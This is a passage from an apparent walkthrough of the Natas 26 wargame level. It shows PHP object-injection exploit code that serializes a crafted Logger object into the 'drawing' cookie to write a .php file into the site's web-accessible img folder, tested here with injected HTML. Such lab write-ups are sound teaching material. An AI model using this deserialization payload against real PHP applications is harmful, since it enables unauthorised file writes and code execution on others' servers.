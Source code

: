 Well, new errors got shown up that are related to **fopen()** and **fwrite()** functions which are only used in **Logger** class. So we know for sure that an instance has been created and even got executed.

Now let's hit to the next step where we make use of calling an instance of **Logger**. First, we need to change the file it is changing from **/tmp** to somewhere we can open from web gate. From our last attempt, it revealed the main folder that holds this level's web which is **/var/www/natas/natas26**. Besides, if we right-click the image and open in it a new webpage, we can see above in the url that it is in a folder named **/img**. So let's use **/var/www/natas/natas26/img** as a folder to hold our altered file. Make the file name unique to avoid conflict with other people following this approach. Also, let's inject some html code in the **$initMsg** and **$exitMsg** variables to test it.

```php
<?php
class Logger {
	private $logFile;
    private $initMsg;
    private $exitMsg;
        
	function __construct(){
            $this->initMsg="#<h1>Hello World</h1>";
            $this->exitMsg="<h1>Goodbye World</h1>";
            $this->logFile = "/var/www/natas/natas26/img/njeeh.php";
	}
}

$logger = new Logger();
$encoded = base64_encode(serialize($logger));
echo $encoded;
?>
```

![alt text](NatasScreenshots/27.2.png)

After changing the **drawing** cookie, refreshing and following the url of our created file, we can see that it outputs the exit message. It skipped the init one because as we mentioned the unserialization process calle only **_wakeup()** (which is not present) and **_destruct()**.
